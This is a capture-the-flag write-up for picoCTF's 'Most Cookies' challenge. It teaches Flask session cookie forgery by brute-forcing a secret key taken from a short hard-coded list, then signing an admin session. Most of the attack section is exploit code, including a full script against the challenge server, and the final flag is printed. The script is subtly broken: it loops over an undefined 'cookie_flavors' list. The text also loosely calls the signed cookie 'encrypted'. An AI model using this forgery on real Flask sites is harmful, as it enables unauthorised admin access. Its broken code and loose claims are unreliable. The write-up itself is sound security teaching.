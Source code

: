 # Most Cookies
### Authored by Katrina Lee

![image](challenge.PNG)

## Introduction

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period. Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **the session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **the timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **the [SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Scripting

Okay, now let's write a script to get our modified session. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.

First, we need to import a couple of modules:
* `from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer` - to unsign the old session and sign the new one with timestamps
* `from flask.json.tag import TaggedJSONSerializer` - to create a new session
* `import hashlib` - to encrypt with session with a SHA-1 hash
* `import requests` - in my [writeup](../Cookies/README.md) for the `Cookies` challenge, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

Okay now, let's get our original session cookie so we can unsign and validate it. There are many ways we can go about this:
1. [DevTools](../Cookies/README.md)
2. [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) - visit the website and use this browser extension to see the cookies
3. [Burp Suite](https://portswigger.net/burp)
4. [cURL](https://curl.se/docs/manpage.html) - if you're on Linux, make a curl request to the server and retrieve the request headers with `curl -v http://mercury.picoctf.net:6259/`

For each of the above methods, once you acquire the cookie value, simply copy & paste it into the script: `old_session = eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`. Keep in mind that the session cookie (and thus, the secret key) seems to change periodically, so don't just copy this one here.

5. Python (recommended) - dynamically retrieve cookie value with a `Session` object
```
s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]
```

Now, let's loop through each cookie in `cookie_name`, create a signature with the cookie name as the secret key, and unsign that signature. If this process raises no errors (meaning the unsigning was successful), then we can break out of the loop and use this cookie name as our secret key:
```
for secret in cookie_flavors:
    try:
        signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
    except:
        continue
    break
```

Then, with our newly-acquired secret key and the session data, we can create a new session cookie using a similar process:
```
new_session = serializer(
    secret_key=secret,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer=tsigner,
    signer_kwargs={
        "key_derivation":"hmac",
        "digest_method":hashlib.sha1
    }
).dumps(data)
```

Lastly, we want to make another HTTP GET request to the website with `new_session` as the new session cookie and print out the response.
```
response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
Note: According to line 16 of `server.py`, the website redirects to the `/display` route if the value of the `very_auth` key in the `session` dictionary is not `blank`. Recall the `data` variable we defined earlier: `data = {"very_auth": "admin"}`. As you can see, `very_auth` is not `blank`. So we can simply request the `/` root, using the same `URL` variable we defined earlier; there is no need to specifically request the `/display` endpoint, since we will be redirected there anyways.

We can now run this script like so: `python3 most_cookies.py`.

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
